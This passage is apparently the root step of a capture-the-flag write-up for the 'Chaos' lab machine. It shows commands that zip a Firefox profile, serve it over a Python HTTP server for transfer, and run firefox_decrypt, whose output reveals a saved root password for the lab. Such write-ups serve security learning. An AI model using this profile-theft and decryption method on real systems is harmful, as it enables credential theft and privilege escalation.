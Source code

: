Root

I used zip to compress the mozilla profile and used a github decryptor to get the login creds. transfering bzo7sjt1.default to my system was tricky and compressing it.by default i went to tar but i was getting some kind of error where tar was truncating itsself. there are ways to force / bypass. Zip came to the rescue.

https://github.com/unode/firefox_decrypt

```
/usr/bin/zip user.zip bzo7sjt1.default/* 
/usr/bin/python -m SimpleHTTPServer 9017
```

```
python firefox_decrypt/firefox_decrypt.py bzo7sjt1.default/
2019-02-11 22:28:36,944 - WARNING - profile.ini not found in bzo7sjt1.default/ 
2019-02-11 22:28:36,944 - WARNING - Continuing and assuming 'bzo7sjt1.default/'
is a profile location

Master Password for profile bzo7sjt1.default/:

Website:   https://chaos.htb:10000
Username: 'root'
Password: 'Thiv8wrej~'

```

So log back in and su root and enter the password.

